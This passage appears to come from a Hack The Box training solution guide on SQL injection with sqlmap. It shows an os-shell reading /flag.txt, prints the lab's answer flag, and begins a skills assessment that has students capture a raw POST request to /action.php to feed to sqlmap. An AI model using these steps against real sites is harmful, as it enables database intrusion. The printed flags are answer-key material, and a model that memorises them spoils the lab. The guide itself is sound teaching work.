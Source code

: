 Once students obtain a shell, they can print out the flag file "flag.txt" that is under the root directory:

```shell
cat /flag.txt
```
```
os-shell> cat /flag.txt

do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'HTB{n3v3r_run_db_45_db4}'
```

Answer: `HTB{n3v3r_run_db_45_db4}`

# Skills Assessment

## Question 1

### "What's the contents of table final\_flag?"

After spawning the target machine, students need to visit its website's root page and inspect the web application for possible attack vectors:

![[HTB Solutions/CBBH/z. images/759201dca5434a514d6d641ba2284a33_MD5.jpg]]

Students then need to click all buttons while having the Network tab of the Web Developer tools open, searching for a `POST` request that can be abused. The only button that sends a `POST` request is under `Catalog` -> `Shop`, specifically, the `ADD TO CART +` button on an item:

![[HTB Solutions/CBBH/z. images/9b947b96026f38551c255060e5b2086d_MD5.jpg]]

Therefore, students need to select the request and copy the raw request headers, in addition to the raw request payload, and save them into a file:

![[HTB Solutions/CBBH/z. images/1ae27c7d902e0e77d6a2d345781c931a_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/e186b36f3e1d7fd58ea5fb5cfd0bf9f5_MD5.jpg]]

The final request file that will be provided to `sqlmap` is:

```
POST /action.php HTTP/1.1
Host: STMIP:STMPO
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 8
Origin: http://178.62.91.22:31147
DNT: 1
Connection: keep-alive
Referer: http://STMIP:STMPO/shop.html
Sec-GPC: 1

{"id":1}
```
